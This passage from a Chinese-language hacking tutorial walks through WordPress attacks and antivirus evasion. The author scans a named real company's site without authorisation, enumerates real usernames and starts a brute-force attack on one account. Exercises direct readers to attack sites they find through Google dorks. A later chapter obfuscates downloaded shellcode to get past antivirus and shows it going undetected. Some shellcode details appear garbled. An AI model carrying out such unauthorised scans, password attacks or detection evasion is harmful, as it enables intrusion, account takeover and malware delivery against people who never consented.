root@kali-2019:~ # wpscan -h

  W   W   W  P       Scan
  WW WW WW  PP  P
 WWWWWW WW P P   P
  WW WW WWW PPPP
  W   W WWW P P P

   WordPress Security Scanner by the WPScan Team
            Version 3.4.3
       Sponsored by Sucuri - https://sucuri.net
@WPScan_, @ethicalhack3r, @erwan_lr, @FireFart_

Usage: wpscan [options]

  --url URL
    The URL of the blog to scan
    Allowed Protocols: http, https
    Default Protocol if none provided: http
    This option is mandatory unless update or help or hh or version is/are
supplied
  -h, --help
    Display the simple help and exit
  -hh
    Display the full help and exit
  --version
    Display the version and exit
  -v, --verbose
    Verbose mode
  --[no-]banner
    Whether or not to display the banner
    Default: true
  -o, --output FILE
    Output to FILE
  -f, --format FORMAT
    Output results in the format supplied
    Available choices: cli, cli-no-colour, cli-no-color, json
    Default: mixed
  --detection-mode MODE
    Available choices: mixed, passive, aggressive
  --user-agent, --ua VALUE
    Use a random user-agent for each scan
  --random-user-agent, --rua
  --http-auth login:password
  -t, --max-threads VALUE
    The max threads to use
    Default: 5
  --throttle MilliSeconds
    Milliseconds to wait before doing another web request. If used, the ma
```

此命令显示 `wpscan` 的帮助屏幕，如上图所示。`wpscan` 拥有众多选项，但我们可以将其语法简化为：`wpscan -url <URL>`。这种语法使我们能够将此工具指向任何 WordPress 网站，并获取其已知漏洞的报告。让我们试一试。

此前，我们使用 Google hacks 来查找基于 WordPress 构建的网站。让我们使用其中一个作为我们的测试对象（任选其一）。为了保护无辜者，我将隐藏该网站的名称，但这确实是我们通过 Google hack 找到的一个真实网站。

当你运行此命令时，如果 `wpscan` 提示你更新其数据库，请输入 `Y`。

```bash
kali > wpscan -url <website name>
```

```bash
root@kali-2019:~# wpscan --url https://,
```

```
(+] custom-contact-forms
```

如上图所示，`wpscan` 开始扫描选定的网站。首先，它识别了所使用的技术（Apache 和 PHP/7.0.33）。然后，它开始查找有趣的条目，并找到了 `/wp-admin/` 和 `wp-admin/admin-ajax.php`。如果我们向下扫描一点，我们会发现 `wpscan` 识别了该 WordPress 网站中的所有主题和插件。如果我们再扫描一点，我们可以看到它发现了一个漏洞，即其 Custom Contact Forms 中存在的一个跨站脚本（XSS）漏洞。

请注意，该漏洞提供了指向漏洞网站 `wpvulndb.com` 和 [www.packetstormsecurity.com](http://www.packetstormsecurity.com) 的参考。[www.wpvulndb.com](http://www.wpvulndb.com) 由 `wpscan` 的所有者拥有，专门致力于 WordPress 安全。

让我们前往 `www.packetstormsecurity.com` 获取有关此漏洞的更多信息。


# WordPress 自定义联系表单跨站脚本攻击

作者：SINA Rabbani

发布于 2012 年 5 月 11 日

WordPress 自定义联系表单存在多个跨站脚本漏洞。

tags | 利用，漏洞，xss

MD5 | a87fa4c3207c8d7cc65ddaabb2235922d

下载 | 收藏 | 评论 (0)

## 相关文件

## 分享此内容

喜欢 0

Tweet

LinkedIn

Reddit

Digg

StumbleUpon

更换镜像

下载

---BEGIN PGP SIGNED MESSAGE-----

Hash: SHA1

WordPress 安全审计

自定义联系表单

1. 跨站脚本攻击（反射型）

1.1. http://127.0.0.1/wp-admin/options-general.php [任意提供的请求参数名]

1.2. http://127.0.0.1/wp-admin/options-general.php [任意提供的请求参数名]

1.3. http://127.0.0.1/wp-admin/options-general.php [x 参数]

### 问题背景

反射型跨站脚本漏洞发生在数据从请求中被复制并以不安全的方式回显到应用的即时响应中时。攻击者可以利用该漏洞构造一个请求，如果由另一个应用用户发出，将导致攻击者提供的 JavaScript 代码在该用户与应用程序会话的浏览器中执行。

攻击者提供的代码可以执行多种操作，例如窃取受害者的会话令牌或登录凭据，以受害者身份执行任意操作，以及记录其按键。

此概念验证（PoC）攻击表明，可以向应用程序响应中注入任意 JavaScript。

```
/wp-admin/options-general.php?page=bb2_options&#x3C;SCRIPT&#x26XXS32;//#3C\SCRIPT//#6C4C\SCRIP/cdC#9><script>alert(1)</script>:#6abbb2ef55f5%3E
```

```
HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:11.0) Gecko/20100101 Firefox/11.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Cookie: wordpress_5c01e08f0f95f039102cbe8366c5c7f3=admin%7C1334178029%7C0cb3e6d7ebff4d014b08f8f399e7931d9;
bb2_scrummer = 1534008940-127.0.1;
PHPSESSID=dp0pohl4p21uuw57ek61pdbar76;
wordpress_test_cookie=WP+Cookie+check;
wp-settings-1=widgets_access%300f%82e6uploader%30127;wp-settings-time-1=1334005690;
wordpress_logged_in_5c01e08f0f95f039102cbe8366c5c7f3=admin%7C1334178029%7C0b90d09df0911bd2b367c018b9081811a
```


正如你上面所见，`www.packetstormsecurity.com` 早在 2012 年就首次发现了该联系表单中的这个跨站脚本或 XSS 漏洞，但显然直到 2019 年仍未修复。如果我们属于该站点的渗透测试团队，我们的下一步任务将是使用该 POC（概念验证）测试该漏洞是否实际存在，也就是安全研究人员在此安全警报中概述的攻击，如下所示。


## 不安全的信息安全公司

我总是觉得有些好笑，很多安全公司在保护自己的网站方面做得很糟糕。最著名的例子是 2011 年，广受关注且声誉良好的美国信息安全公司 HBGary，其网站被黑客入侵。当时 HBGary 正在攻击 loosely organized（松散组织）的黑客团体 Anonymous，随后 Anonymous 决定进行反击。成千上万的文件和电子邮件被发布到网络上，这对该公司及其客户来说都极具尴尬色彩（客户包括美国许多最强大的公司）。我不确定他们的客户对此有何感受，但如果连自己都无法保护的人去保护我的信息，我会很犹豫。

我们中间可能有一个现代版的 HBGary。信息安全公司 [www.cybrary.it](www.cybrary.it) 拥有一个基于 WordPress 构建的网站。让我们看看他们的网站是否安全。

为了扫描 cybrary.it，让我们使用上面使用的标准命令，但让我们添加另一个选项来枚举用户。该选项将尝试识别具有更新和更改站点权限的用户，本质上是 webmaster（网站管理员）权限。该选项是 `--enumerate u`，我们可以简单地在我们的命令后追加它，例如：`kali > wpscan -url https://www.cybrary.it -enumerate u`

当命令运行时，它返回一个错误，指出该站点 NOT 运行 WordPress。这很奇怪，因为我相当确定它运行的是 WordPress。

有时网站有负载均衡器和 DoS 保护技术，限制了这些类型的扫描。幸运的是，`wpscan` 有一种隐蔽模式，有时能够绕过这些保护。让我们通过在命令末尾添加选项 `–stealthy` 来尝试。

```
kali > wpscan -url https://www.cybrary.it -enumerate u -stealthy
```


```
root@kali-2019:~# wpscan --url https://www.cybrary.it --enumerate u --stealthy
```


```
WordPress Security Scanner by the WPScan Team
Version 3.4.3
Sponsored by Sucuri - https://sucuri.net
@_WPScan_, @ethicalhacker3r, @erwan_lr, @FireFart_

URL: https://www.cybrary.it/
Started: Mon Aug 12 14:28:44 2019

Interesting Finding(s):

https://www.cybrary.it/
Interesting Entries:
Server: nginx
via: 1.1 b7bdad6e794db75fcc11fe5733aa7ccc.cloudfront.net (CloudFront)
X-amz-cf-pop: DFW50-C
X-amz-cf-id: pzc2GRuRCIXH-BGXPTWvYLm9BYJFC9cvow_B0BwgVApqfxQwNoXhgp==
Found By: Headers (Passive Detection)
Confidence: 100%

https://www.cybrary.it/xmlrpc.php
Found By: Headers (Passive Detection)
Confidence: 80%
Confirmed By: Link Tag (Passive Detection), 30% confidence
References:
http://codex.wordpress.org/XML-RPC_Pingback_API
https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

WordPress version 4.7.5 identified (Insecure, released on 2017-05-16).
Detected By: Rss Generator (Passive Detection)
https://www.cybrary.it/feed/, <generator>https://wordpress.org/?v=4.7.5</generator>
https://www.cybrary.it/comments/feed/, <generator>https://wordpress.org/?v=4.7.5</generator>
https://www.cybrary.it/home/feed/, <generator>https://wordpress.org/?v=4.7.5</generator>

27 vulnerabilities identified:
```

```
[+] Enumerating Users

[i] User(s) Identified:

[+] lpark
    | Detected By: Rss Generator (Passive Detection)

[+] Tatianna
    | Detected By: Rss Generator (Passive Detection)

[+] angelawood
    | Detected By: Rss Generator (Passive Detection)

[+] thorlacher2322
    | Detected By: Rss Generator (Passive Detection)
```

正如你所见，我们的扫描能够绕过他们的保护，并发现了二十七个漏洞！

此外，它还能够检测到系统中的多个用户。

另外，一旦识别出用户，`wpscan` 具有针对 WordPress 站点的暴力破解密码功能。这种暴力破解功能实际上绕过了表单（从而规避了某些暴力破解保护机制），并将潜在密码直接发送到网站暴露的部分，该部分将密码反馈回进行认证（`xmlrpc`）。要使用此工具的暴力破解功能，你需要使用 `-U` 选项，后跟 `username`（用户名），以及 `-P` 选项，后跟你想要使用的 `password list`（密码列表）。

```text
root@kali:~$ wpscan --url https://www.cybrary.it --stealthy -U lpark -P /root/top1000passwords

  _  _____   
 | |/ ____| | |
 | | |  _| | |_
 | | |___| | /\
 |_|_____| |_/

  WordPress Security Scanner by the WPScan Team
  Version 3.4.3
  Sponsored by Sucuri - https://sucuri.net
  @WPScan_, @ethicalhack3r, @erwan_lr, @FireFart

[+] URL: https://www.cybrary.it/
[+] Started: Thu Aug 15 16:40:53 2019

[i] No Config Backups Found.

[+] Performing password attack on WP Login against 1 user/s
Brute 1park / master  Time: 00:00:19 >> (107 / 1000) 10.70% ETA: 00:02:39
```


在这种情况下，让我们尝试暴力破解用户 `lpark`，并使用我们的 `top1000passwords` 列表，例如：`kali > wpscan –url https://www.cybrary.it –stealthy –U lpark –P /root/top1000passwords` 在扫描并再次列出漏洞后，`wpscan` 将开始尝试暴力破解该用户。

# 总结

网络黑客攻击是对构成万维网的惊人应用和基础设施最重要的风险之一。黑客攻击 Web 应用和基础设施的方式几乎不计其数，你所采取的方法将取决于多种因素，包括网站、Web 服务器或用户所使用的技术。

SQL 注入是针对网站最恶毒的攻击之一，绝对也是造成最大经济损失的攻击。在这里，我们能够使用 `sqlmap` 应用程序对数据库进行指纹识别并提取关键信息。

值得注意的是，大多数在线数据库已不再容易受到这种简单攻击的影响，但仍有一些数据库存在此风险。有关更高级的 SQL 注入技术，例如盲注 SQL 注入，请参阅我的下一本书《黑客入门：成为大师级黑客 2》。

WordPress 是全球最流行的用于开发网站的 CMS。我们的工具 `wpscan` 在识别这些站点的漏洞、枚举用户以及暴力破解密码方面表现出色。

## 练习

- 1. 使用 Google 黑客技术查找可能存在 SQL 注入漏洞的网站。
- 2. 使用 `OWASP-ZAP` 确定您在上一步骤中找到的网站是否容易受到 SQL 注入攻击。
- 3. 使用 Google 黑客技术查找 WordPress 网站。
- 4. 使用 Google 黑客技术查找 WordPress 备份中的信息泄露。
- 5. 使用 `wpscan` 搜索您在上一步骤中识别的 WordPress 网站中的漏洞。
- 6. 当您在站点中发现漏洞时，通过搜索 `wpvulnsdb.com` 或 `packetstormsecurity.com` 获取更多信息以及可能的利用代码。


# 第 13 章

## 规避杀毒软件和 Shellcode 检测

*大师级 OTW*

当我们像在第 9 章中使用 `Metasploit` 那样利用目标时，你很可能会遇到目标系统上正在运行的防病毒程序。几乎没有目标系统没有安装防病毒应用。因此，我们需要研究如何规避此类保护。

通常，避免 AV 检测的最佳方法是使用内存损坏漏洞利用，将载荷直接加载到内存中，而从不写入硬盘。这就是我们使用永恒之蓝 `EternBlue` 漏洞利用时所做的。不幸的是，并非每次漏洞利用都能做到这一点。

在过去，第 9 章中提到的 `Metasploit` 的 `msfvenom` 模块能够创建可规避 AV 检测的载荷，但 AV 开发人员并没有坐以待毙。这些软件公司很快开发了检测几乎任何由 `msfvenom` 开发的载荷的技术，但并非所有载荷都能被检测（最近，某个国家实施的某些高级持续性威胁 `APT` 恶意软件通过 `shikata-ga-nai` 编码器有效地规避了 AV 检测）。这意味着，为了合理地成功规避防病毒软件的检测，我们需要借助其他软件来帮助我们重新编码载荷。

### Metasploit 的新规避模块

认识到 `msfvenom` 在规避 AV 检测方面的局限性后，`Metasploit` 的开发人员启动了一个新项目，以帮助规避防病毒软件。当 `Rapid7` 在 2018 年 10 月发布 `Metasploit 5` 时，其中包含两个新的规避模块。对于 `Metasploit` 来说，这是一个突破，因为已经有很长时间没有新的模块类型出现了。

新模块发布时，它们在规避 Windows 10 中的 Windows Defender 方面非常有效。不幸的是，在攻击者和防御者之间持续进行的博弈中，微软人员很快添加了对这些由新模块开发的载荷的检测。尽管如此，我们必须感谢 `Rapid7` 在这个关键问题上投入了时间和精力（有关 `Metasploit` 新规避模块的更多信息，请阅读 [Metasploit Basics for Hackers Part 24: The New Evasion Modules in Metasploit 5](https://www.hackers-arise.com/post/2019/03/27/metasploit-basics-for-hackers-part-24-the-new-evasion-modules-in-metasploit-5)）。

### 防病毒软件如何工作

在我们开始制作不可检测的载荷之前，我们需要了解防病毒软件的工作原理。大多数 AV 软件可以通过将已知恶意软件的签名（代码片段和其他特征）与进入系统的软件进行比较来检测恶意代码（有关防病毒软件工作原理的更多信息，请访问 [Evading AV: Anatomy of a ClamAV](https://www.hackers-arise.com/single-post/2016-10-28/Evading-AV-Anatomy-of-a-ClamAV)）。虽然一些软件开发商已开始使用启发式技术（检测已知的恶意行为），但由于需要大量的 CPU 周期来纳入这种方法，这在 AV 应用中尚未普及。使用启发式技术的结果是扫描速度变慢和系统滞后。

值得注意的是，并非所有 AV 软件都是一样的。并非每个 AV 应用都能捕获所有已知恶意软件。`VirusBulletin` 是一家独立的 AV 软件测试实验室。根据他们的结果，商业 AV 软件能够检测约 60-98% 的已知恶意软件。

大多数主要 AV 软件开发商的结果都集中在 95% 左右。即使如此，95% 的检测率意味着每 20 个已知恶意软件中就有 1 个会未被这些应用检测到。当然，零日漏洞——定义上是未知的恶意软件——很可能会绕过**所有**这些应用。


这一观点至关重要，因为要攻破目标，你并不一定需要对**所有** AV 应用都不可检测。你只需要不被目标使用的 AV 软件检测到。如果你知道目标使用的 AV 软件，你可以专注于使你的载荷不被该特定应用检测到（参考我关于[如何使用 Recon-ng 确定目标 AV 软件](https://www.hackers-arise.com/single-post/2016-05-23/How-to-Use-Reconng-to-Determine-the-Targets-AV-SoftWare-1/)的文章，了解如何使用 `recon-ng` 确定目标的 AV 软件）。

### 制作不可检测载荷的工具

在可用于创建能够逃避 `AV` 软件检测的载荷/`shellcode` 的工具中，例如 `veilevasion` ([https://www.hackers-arise.com/evading-av-with-veilevasion](https://www.hackers-arise.com/evading-av-with-veilevasion)) 或 `shellter` ([https://www.hackers-arise.com/evading-av-with-shellter](https://www.hackers-arise.com/evading-av-with-shellter))，`OWASP-ZSC`（**Z**ero-day **S**hell**C**ode，零日 Shellcode）可能是最通用的。`OWASP-ZSC` 是 `OWASP` 项目（那个享有盛名的 Open Web Application Security 项目，拥有 `OWASP Top 10` 和 `OWASP-ZAP` 等成果的一部分）的一个项目，它仍在继续开发，但具有一些此类类别中某些其他应用所没有的有用功能。在本章中，我将尝试演示 `OWASP-ZSC` 的一些最重要功能，以及如何使用它们创建 `shellcode`/`载荷`，使其不被目标机器上的防病毒软件检测到。

### 什么是 Shellcode？

`Shellcode` 只是一组指令（代码），当执行到正在运行的应用程序（例如 `SMB`，就像 `EternBlue` 那样）或其他易受攻击的服务时，它会赋予攻击者对系统的控制权。这种代码是用汇编语言编写的（有关汇编语言的更多信息，请参见 [Reverse Engineering Malware Part 2: Assembler Language Basics](https://www.hackers-arise.com/single-post/2017-02-27/Reverse-Engineering-Malware-Part-2-Assembler-Language-Basics)）。

当执行基于堆栈或堆的缓冲区溢出时，`shellcode` 随后被注入，通常通过命令 shell 等方式赋予攻击者控制目标系统的能力（因此得名）。


每当有新的 shellcode 可用时，防病毒软件开发人员（如果他们希望在这个行业中保持相关性的话）就有责任开发签名或其他方法来检测恶意内容。作为黑客/渗透测试人员，我们需要不断更改我们的 shellcode 以规避防病毒软件，保持隐蔽性和有效性。`OWASP-ZSC` 是我们可以用来创建、编码和混淆 shellcode 的另一个工具，以使其不被目标机器上的防病毒软件检测到。

```bash
root@kali-2019:~# git clone https://github.com/zscproject/OWASP-ZSC
Cloning into 'OWASP-ZSC'...
remote: Enumerating objects: 2395, done.
remote: Total 2395 (delta 0), reused 0 (delta 0), pack-reused 2395
Receiving objects: 100% (2395/2395), 3.29 MiB | 7.30 MiB/s, done.
Resolving deltas: 100% (1553/1553), done.

Building Commandline
Copying Files

Now you can remove this folder
files copied in /usr/share/owasp_zsc.
to run zcr shellcoder please use "zsc" command line

| Visit https://www.owasp.org/index.php/OWASP_ZSC_Tool_Project --- |
root@kali-2019:~/OWASP-ZSC#
```

让我们看看如何使用 `OWASP-ZSC` 来构建、编码和混淆我们的 shellcode。

### 下载和安装 OWASP-ZSC

`OWASP-ZSC` 并未内置于 Kali 中，也不包含在 Kali 的软件源中，因此我们需要从 `github.com` 下载它。

```
kali > git clone https://github.com/zscproject/OWASP-ZSC
```

将 `OWASP-ZSC` 下载到我们的 Kali 系统后，下一步是进行安装。

进入 `OWASP-ZSC` 的目录。

```
kali > cd OWASP-ZSC
```

接下来，我们需要执行随附的安装脚本。请务必确保你拥有执行权限（使用 `chmod` 或参见 *Linux Basic for Hackers*）。

```
kali > ./installer.py
```


```
OWASP ZeroDay Cyber Research Shellcoder
zsc> help

[+] shellcode             generate shellcode
[+] shellcode>generate    to generate shellcode
[+] shellcode>search      search for shellcode in shellstorm
[+] shellcode>download    download shellcodes from shellstorm
[+] shellcode>shell_storm_list    list all shellcodes in shellstorm
[+] obfuscate             generate obfuscate code
[+] back                  Go back one step
[+] clear                 clears the screen
[+] help                  show help menu
[+] update                check for update
[+] about                 about owasp zsc
[+] restart               restart the software
[+] version               software version
[+] exit/quit             to exit the software
[+] #                     insert comment
[+] zsc -h, --help        basic interface help
zsc>
```

安装程序运行完成后，你应该会看到类似上述的屏幕。请注意，若要卸载 `OWASP-ZSC`，你只需运行 `./uninstaller` 脚本即可。此外，一旦 `OWASP-ZSC` 安装完成，你只需输入 `zsc` 即可启动该脚本。

让我们开始吧！

```
kali > zsc
```

在开始使用 `OWASP-ZSC` 之前，让我们先查看一下帮助屏幕。在使用任何新应用程序时，这始终是一个好主意。

```
zsc > help
```


在上面的截图中，你可以看到 `OWASP-ZSC` 在其帮助屏幕中显示了所有命令。关键命令是前六个，但也要注意 `back`、`clear`、`help` 和 `exit` 命令，这些在使用 `OWASP-ZSC` 时非常有用。

当我们想生成一些 shellcode 时，只需输入命令 `shellcode`。

```
zsc> shellcode
```

然后，输入命令 `generate`。

```
zsc/shellcode> generate
```

然后我们选择平台。在这种情况下，让我们选择 `windows_x86`，因为大多数黑客都关注攻击 Windows 系统，而 x86 代码可以在 32 位或 64 位系统上运行。

```
zsc/shellcode/generate>windows_x86
```

接下来，当我们按下 TAB 键时，`OWASP-ZSC` 将列出该平台的所有 shellcode。

我们可以使用这里的任何代码，但如果您希望有机会躲避 AV（防病毒软件），我们可能需要使用与这些默认 shellcode 不同的其他 shellcode。

`OWASP-ZSC` 内置了一个 API（应用程序编程接口，即访问应用程序的一种方式），用于访问 `shell-storm.org` 上的 shellcode。`Shellstorm` 是一个您可以使用的 shellcode 数据库。你可以在 `www.shell-storm.org` 上查看该数据库。

现在，与其使用可能被 AV 检测到的默认 shellcode，不如我们从该数据库中生成一些具有躲避功能的 shellcode。

让我们使用 `back` 命令返回到 `zsc>` 提示符。

正如我们在开头的帮助屏幕上看到的，我们只需输入“shellcode”即可。

```
zsc > shellcode
```

如果使用 TAB 键，我们会得到一份命令列表。在 `OWASP-ZSC` 中，我们可以使用 `shell_storm_list` 命令访问 [www.shell-storm.org](http://www.shell-storm.org) 数据库。

```
zsc > shell_storm_list
```


```
zsc/shellcode> shell_storm_list

[+] id: 132 - Aix - execve( /bin/sh - 88 bytes by Georgi Guninski
[+] id: 134 - Alpha - /bin/sh - 80 bytes by Lamont Granquist
[+] id: 136 - Alpha - execve() - 112 bytes by n/a
[+] id: 135 - Alpha - setuid() - 156 bytes by n/a
[+] id: 90 - BSD/32bits - Passive Connection - 126 bytes by Scrippie
[+] id: 107 - BSD/ppc - execve(/bin/sh) - 128 bytes by Palante
[+] id: 814 - BSD/x86 - setreuid(geteuid(), geteuid()) and execve(/bin/sh, /bin/sh, 0) by Jihyog Lim
[+] id: 95 - BSD/x86 - setuid/execve - 30 bytes by Marco Ivaldi
[+] id: 94 - BSD/x86 - setuid/portbind - 94 bytes by Marco Ivaldi
[+] id: 356 - BSD/x86 - break chroot - 45 bytes by Matias Sedalo
[+] id: 91 - BSD/x86 - cat /etc/master.passwd & mail root@localhost - 92 bytes by Matias Sedalo
[+] id: 92 - BSD/x86 - execve(/bin/sh) & setuid(0) - 29 bytes by Matias Sedalo
[+] id: 601 - BSD/x86 - bindshell on port 2525 - 167 bytes by beoroot
[+] id: 562 - BSD/x86 - execve /bin/sh Crypt - 49 bytes by dev0id
[+] id: 93 - BSD/x86 - execve( /bin/sh) - 27 bytes by nogada
[+] id: 676 - BSD/x86 - Connect Back Port 6969 - 133 bytes by Macetam
[+] id: 360 - BSD/x86 - back-connect TCP/2222 - 93 bytes by dev0id
[+] id: 144 - Cisco IOS - Connectback shellcode v1.0 by Gyan Chawdhary
[+] id: 142 - Cisco IOS - Tiny shellcode v1.0 by Gyan Chawdhary
[+] id: 143 - Cisco IOS - Bind shellcode v1.0 by Varun Uppal
[+] id: 131 - Sco/X86 - execve( /bin/sh, ..., NULL) - 43 bytes by minervini
[+] id: 866 - FreeBSD/x86-64 - execve - 28 bytes by Gitsnik
[+] id: 865 - FreeBSD/x86-64 - bind_tcp with password - 127 bytes by Gitsnik
[+] id: 106 - FreeBSD/x86-64 - exec( /bin/sh) Shellcode - 31 bytes by Hack'n Roll
[+] id: 104 - FreeBSD/x86-64 - execve /bin/sh shellcode 34 bytes by Hack'n Roll
[+] id: 103 - FreeBSD/x86 - Execve /bin/sh - Anti-Debugging by c0d3_z3r0
[+] id: 100 - FreeBSD/x86 - execve /tmp/sh - 34 bytes by Claes M. Nyberg
[+] id: 170 - FreeBSD/x86 - execve /bin/sh 23 bytes by IZ
[+] id: 101 - FreeBSD - reboot(RB AUTOBOOT) - 7 bytes by IZ
[+] id: 899 - Windows/64 - Obfuscated Shellcode x86/x64 Download And Execute (Use PowerShell) - Generator by Ali Razanjoo
[+] id: 898 - Windows/64 - Add Admin, enable RDP, stop firewall and start terminal service - 1218 bytes by Ali Razanjoo
[+] id: 150 - Windows/64 - (UrlDownloadToFile) download and execute - 210 bytes by Weiss
[+] id: 627 - Windows/64 - Windows Seven x64 (cmd) - 61 bytes by glxk
[+] id: 897 - Windows - Add Admin, enable RDP, stop firewall and start terminal service - 1218 bytes by Ali Razanjoo
[+] id: 874 - Windows - Add Admin User Shellcode - 194 bytes by Giuseppe D'Amoro
[+] id: 673 - Windows - Safari JS JITED shellcode - exec calc (ASLR/DEP bypass) by Alexey Sintsov
[+] id: 767 - Windows - Vista/7/2008 - download and execute file via reverse DNS channel by Alexey Sintsov
[+] id: 568 - Windows - xp - calc.exe - 23 bytes by Alrik Soltuse
[+] id: 714 - Windows - add new local administrator - 326 bytes by Anastasios Monachos
[+] id: 715 - Windows - pro sp5 (EN) - add new local administrator 113 bytes by Anastasios Monachos
[+] id: 582 - Windows - xp sp2 PEB Unlinked/shelledup Shellcode - 50 bytes by Anonymous
[+] id: 526 - Windows - XP Pro Sp2 English Message-Box Shellcode - 16 Bytes by Adrulrez
[+] id: 513 - Windows - XP Pro Sp2 English Wordpad Shellcode - 15 bytes by Adrulrez
[+] id: 831 - Windows - write-to-file Shellcode by Brett Carvsonni
```

如上所示，OWASP-ZSC 列出了数据库中按操作系统分组的所有 shell。

如果我们向下扫描一点，就会看到 Windows shellcode。在这里你将会看到 `#627` 或“Windows Seven x64”。

让我们尝试使用它。

或者，如果我们知道 shell 名称中的某个关键字，我们可以使用 OWASP-ZSC 的搜索功能来查找这个 shell 或任何其他 shell。在这种情况下，我们可能会使用关键字“seven”。

```
zsc > search
```

```
zsc> shellcode
zsc/shellcode> download    generate    search    shell_storm_list
zsc/shellcode> search
keyword_to_search> seven
[+] author: agix shellcode_id: 627    platform: Windows/64    title: Windows Seven x64 (cmd) - 61 bytes
zsc>
```


```
zsc> shellcode
zsc/shellcode> download    generate    search    shell_storm_list
zsc/shellcode> download
shellcode_id> 627
/**
  | Title: Windows Seven x64 (cmd) Shellcode 61 Bytes
  | Type: Shellcode
  | Author: agix
  | Platform: win32
  | Info: Tested on Windows Seven Pro Fr, Ultimate En, Premium Home En
 */
#include <stdio.h>
char shellcode[] =
  "\x31\xC9"    //xor ecx,ecx
  "\x64\x8B\x71\x30"    //mov esi,[fs:ecx+0x30]
  "\x8B\x76\xC"    //mov esi,[esi+0xC]
  "\xB8\x24"    //mov esi,0x1C]
  "\x8B\x26"    //mov esi,[esi]
  "\x8B\x06"    //mov eax,[esi]
  "\xEB\x0"    //mov ebp,[eax+0x8]
  "\x59"    //jmp short 0x55
  "\x59"    //pop ebx
  "\x53"    //push ebx
  "\x58"    //pop ebx
```

如您所见，OWASP-ZSC 能够定位相同的 shellcode，并为我们提供了有关它的关键信息（作者、ID、平台和标题）。

现在，既然我们知道要使用哪个 shellcode，就可以使用 `download` 命令通过 API 从 `shell-storm.org` 下载 shellcode 到 OWASP-ZSC。

执行 `zsc/shellcode/download` OWASP-ZSC 后，会提示我们输入 shellcode ID。只需输入您想使用的 shellcode 的 ID。在本例中，让我们使用 ID `627`。

```
shellcode_id> 627
```

OWASP-ZSC 现在会下载此 shell，并在屏幕上显示，如上所示。

```
zsc> obfuscate
zsc/obfuscate>                  php              python        ruby
zsc/obfuscate> javascript perl
zsc/obfuscate> windows7shell
  encode> base64                rot13           simple_base64_rev simple_hex_rev
  jsfuck      simple_ascii      simple_hex
  encode> simple_hex_rev
  [+] file "windows7shell" encoded successfully!
zsc>
```

下一步是对 shellcode 进行混淆。混淆意味着使其难以理解。在本例中，我们试图让恶意软件分析师——或取证分析师——难以理解代码的意图和功能。

`zsc > obfuscate` 当我们按下 TAB 键时，它会列出所有的混淆方法。假设我们希望此 shellcode 能与浏览器漏洞利用配合工作，因此选择 `javascript`。

`zsc/obfuscate > javascript` 接下来，OWASP-ZSC 提示我们输入用于混淆文件的文件名。我将其命名为 `windows7shell`，但您可以将其命名为任何您想要的名字。

`zsc > windows7shell` 然后下一步是对 shellcode 进行编码。OWASP-ZSC 以 `encode >` 提示我们。这里的目的是让 AV（反病毒）应用程序更难将此 shellcode 中的任何内容与其已知的恶意代码数据库进行匹配。

当我们按下 TAB 键时，它会列出适用于此 shellcode 的所有可用方法。这些编码方法会根据不同的 shellcode 和混淆技术略有不同。

在本例中，我们将使用 `jsfuck` 对其进行编码。

```
encode>
base64 rot13 simple_base64_rev simple_hex_rev
jsfuck simple_ascii simple_hex
encode> jsfuck
[+] file "windows7shell" encoded successfully!
```

`encode > jsfuck` 是的，`jsfuck` 是一种真实的编码方案。它是一种很少使用的 Javascript 子集，仅由 6 个字符组成（[, ], (, ), ! 和 +。它在绕过 web 表单输入验证和混淆方面特别有用。

当我们按下回车键时，OWASP-ZSC 使用 `jsfuck` 对我们的 shellcode 进行编码，并宣布任务完成！

### 测试我们的 Shellcode

最后一步是针对 AV 软件测试您的新 shellcode。如果您知道目标使用的 AV 软件，只需针对那一个进行测试（查看我关于 `recon-ng` 的文章以确定目标正在使用哪种 AV）。如果不知道，您可以在 VirusTotal (`www.virustotal.com`) 上测试您的新 shellcode。需要注意的是，VirusTotal 会与 AV 开发者共享您的代码。


分析可疑文件和 URL 以检测恶意软件类型，并自动将其共享给安全社区

# 文件

# URL

# 搜索


# 选择文件

通过向 VirusTotal 提交您的文件，您即要求 VirusTotal 将您的提交内容共享给安全社区，并同意我们的服务条款和隐私政策。了解更多。

scanii.com 仪表板 文档 支持 occupy theWeb

下午好，occupy theWeb！50 /50 可用积分

最新消息 → 使用 AWS GuardDuty 进行简单的入侵检测

# 为什么此页面大部分为空？

您的仪表板为空是因为您尚未开始使用我们的 API。当您开始向我们发送请求时，我们将使用各种有用的指标和图表填充您的仪表板。

为了帮助您入门，以下是一些快速链接：

- 开始的最简单方法是什么？
- 我如何升级我的计划？
- 我可以在哪里找到我的 API 密钥？
- 我该去哪里提交支持问题/查询？

如果您不希望您的代码与 AV 开发者共享，请使用 `www.scanii.com` 查看其对大多数商业 AV 软件的规避效果。

在本例中，我将编码和混淆后的 `window7shell` 上传到 VirusTotal，并得到以下结果。

| 检测结果 | 详情 | 关系 | 行为 | 社区 |
| :--- | :---: | :---: | :---: | :---: |
| Ad-Aware | 未检测 | | | |
| AhnLab-V3 | 未检测 | | | |
| Arity-AVL | 未检测 | | | |
| Arcabit | 未检测 | | | |
| Avast-Mobile | 未检测 | | | |
| Avisa (no cloud) | 未检测 | | | |
| BdDldefender | 未检测 | | | |
| CAT-QuickHeal | 未检测 | | | |
| CMC | 未检测 | | | |
| Cyren | 未检测 | | | |
| Emsisoft | 未检测 | | | |
| ESETNOD32 | 未检测 | | | |
| F-Secure | 未检测 | | | |
| Fortinet | 未检测 | | | |
| Ikarus | 未检测 | | | |
| K7AntiVirus | 未检测 | | | |
| Kaspersky | 未检测 | | | |
| MalwareBytes | 未检测 | | | |
| McAfee | 未检测 | | | |
| AntigLab | 未检测 | | | |
| ALYac | 未检测 | | | |
| SecantAge APEX | 未检测 | | | |
| Avast | 未检测 | | | |
| AVG | 未检测 | | | |
| Baidu | 未检测 | | | |
| Bitav | 未检测 | | | |
| ClamAV | 未检测 | | | |
| Comodo | 未检测 | | | |
| DrWeb | 未检测 | | | |
| eScan | 未检测 | | | |
| F-Prot | 未检测 | | | |
| FireEye | 未检测 | | | |
| GData | 未检测 | | | |


